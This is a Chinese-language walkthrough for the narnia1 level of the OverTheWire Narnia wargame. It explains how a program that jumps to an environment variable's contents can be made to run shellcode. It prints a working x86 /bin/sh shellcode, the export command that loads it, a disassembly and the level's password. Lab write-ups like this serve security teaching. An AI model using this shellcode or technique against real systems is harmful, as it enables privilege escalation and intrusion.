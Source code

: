 
好了, 进行到这里, 我们已经获得了narnia1关卡的密码**efeidiedae**, 接下来就用narnia0关卡中学到的知识和思路, 去寻找在narnia1程序中启动一个shell的方法吧~

###第1关:覆盖函数指针  
使用narnia1作为用户名登录narnia服务器:  

	ssh -l narnia1 narnia.labs.overthewire.org  
	
我们找到narnia1.c来一看究竟:  

	#include <stdio.h>

	int main(){
		int (*ret)();

		if(getenv("EGG")==NULL){
			printf("Give me something to execute at the env-variable EGG\n";
			exit(1);
		}

		printf("Trying to execute EGG!\n");
		ret = getenv("EGG");
		ret();

		return 0;
	}
	
好单纯的代码, getenv函数会返回名字为"EGG"的环境变量字符串的地址, 我们看到代码中把该地址赋值给ret函数指针, 接下来调用ret函数的时候, 实际上代码会跳转到EGG环境变量的字符串地址上, 这里有个重要思想是, **数据即代码**, 虽然在正常意义上来讲环境变量只是字符串, 但是对于计算机来说, 它会把eip寄存器指向的地址放的任何东西看作是代码, 所以我们只要在EGG的字符串内容里放入代码, 当ret函数调用的时候, 会jmp倒ret函数的地址处, 此时eip的值就是函数的地址, 所以我们放入的代码就会被执行, 其实这种伪装成数据的代码有一个帅气的名字: **Shellcode** . 前面已经讲过narnia1是一个拥有narnia2用户权限的二进制文件, 如果narnia1中创建shell子进程, 则该shell讲拥有narnia2的用户权限, 这样我们就可以访问narnia2用户的密码了, 所以我们要插入的shellcode的功能就是创建一个shell, 其实早先大部分shellcode的功能都是创建shell, 这可能也是Shellcode名称的由来. 那么如何编写Shellcode呢, 方法有很多, 你完全可以用C语言编写一段启动Shell的代码, 然后将它进行汇编, 编译形成2进制串, 这个二进制串就是Shellcode, 鉴于完整的讲述如何生成Shellcode需要花费较多篇幅, 我们偷个懒直接从大牛的网站copy一份过来, 比如这里 : [shellcode-811](http://www.shell-storm.org/shellcode/files/shellcode-811.php).  

	char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                       "\x68\x68\x2f\x62\x69\x6e\x89"
                       "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                       "\xcd\x80\x31\xc0\x40\xcd\x80";
                       
接下来就是把Shellcode伪装的字符串放入环境变量中了, 一行命令即可:  

	export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
	
这时我们再执行 `./narnia1` ,会发现我们成功地启动了shell, 轻松获得了narnia2用户的密码:  
![image](https://raw2.github.com/ellochen/Img-store/master/narnia1.png)  
如果你还云里雾里, 那么我们来跟踪下汇编代码, 看看发生了什么?  

	0x08048434 <+0>:	push   ebp
	0x08048435 <+1>:	mov    ebp,esp
	0x08048437 <+3>:	and    esp,0xfffffff0
	0x0804843a <+6>:	sub    esp,0x20
	0x0804843d <+9>:	mov    DWORD PTR [esp],0x8048560
	0x08048444 <+16>:	call   0x8048330 <getenv@plt>
	0x08048449 <+21>:	test   eax,eax
	0x0804844b <+23>:	jne    0x8048465 <main+49>
	0x0804844d <+25>:	mov    DWORD PTR [esp],0x8048564
	0x08048454 <+32>:	call   0x8048340 <puts@plt>
	0x08048459 <+37>:	mov    DWORD PTR [esp],0x1
	0x08048460 <+44>:	call   0x8048360 <exit@plt>
	0x08048465 <+49>:	mov    DWORD PTR [esp],0x8048599
	0x0804846c <+56>:	call   0x8048340 <puts@plt>
	0x08048471 <+61>:	mov    DWORD PTR [esp],0x8048560
	0x08048478 <+68>:	call   0x8048330 <getenv@plt>
	0x0804847d <+73>:	mov    DWORD PTR [esp+0x1c],eax
	0x08048481 <+77>:	mov    eax,DWORD PTR [esp+0x1c]
	0x08048485 <+81>:	call   eax
	0x08048487 <+83>:	mov    eax,0x0